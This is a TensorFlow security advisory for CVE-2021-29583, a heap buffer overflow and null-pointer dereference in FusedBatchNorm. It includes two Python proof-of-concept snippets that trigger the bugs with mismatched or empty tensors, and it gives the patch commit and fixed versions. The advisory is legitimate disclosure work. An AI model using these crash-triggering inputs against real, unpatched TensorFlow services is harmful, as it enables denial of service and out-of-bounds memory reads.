 ## TFSA-2021-072: Heap buffer overflow and undefined behavior in `FusedBatchNorm`

### CVE Number
CVE-2021-29583

### Impact
The implementation of `tf.raw_ops.FusedBatchNorm` is vulnerable to a heap buffer
overflow:

```python
import tensorflow as tf

x = tf.zeros([10, 10, 10, 6], dtype=tf.float32)
scale = tf.constant([0.0], shape=[1], dtype=tf.float32)
offset = tf.constant([0.0], shape=[1], dtype=tf.float32)
mean = tf.constant([0.0], shape=[1], dtype=tf.float32)
variance = tf.constant([0.0], shape=[1], dtype=tf.float32)
epsilon = 0.0
exponential_avg_factor = 0.0
data_format = "NHWC"
is_training = False

tf.raw_ops.FusedBatchNorm(
  x=x, scale=scale, offset=offset, mean=mean, variance=variance,
  epsilon=epsilon, exponential_avg_factor=exponential_avg_factor,
  data_format=data_format, is_training=is_training)
```

If the tensors are empty, the same implementation can trigger undefined behavior
by dereferencing null pointers:

```python
import tensorflow as tf
import numpy as np

x = tf.zeros([10, 10, 10, 1], dtype=tf.float32)
scale = tf.constant([], shape=[0], dtype=tf.float32)
offset = tf.constant([], shape=[0], dtype=tf.float32)
mean = tf.constant([], shape=[0], dtype=tf.float32)
variance = tf.constant([], shape=[0], dtype=tf.float32)
epsilon = 0.0
exponential_avg_factor = 0.0
data_format = "NHWC"
is_training = False

tf.raw_ops.FusedBatchNorm(
  x=x, scale=scale, offset=offset, mean=mean, variance=variance,
  epsilon=epsilon, exponential_avg_factor=exponential_avg_factor,
  data_format=data_format, is_training=is_training)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/57d86e0db5d1365f19adcce848dfc1bf89fdd4c7/tensorflow/core/kernels/fused_batch_norm_op.cc)
fails to validate that `scale`, `offset`, `mean` and `variance` (the last two
only when required) all have the same number of elements as the number of
channels of `x`. This results in heap out of bounds reads when the buffers
backing these tensors are indexed past their boundary.

If the tensors are empty, the validation mentioned in the above paragraph would
also trigger and prevent the undefined behavior.

### Patches
We have patched the issue in GitHub commit
[6972f9dfe325636b3db4e0bc517ee22a159365c0](https://github.com/tensorflow/tensorflow/commit/6972f9dfe325636b3db4e0bc517ee22a159365c0).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
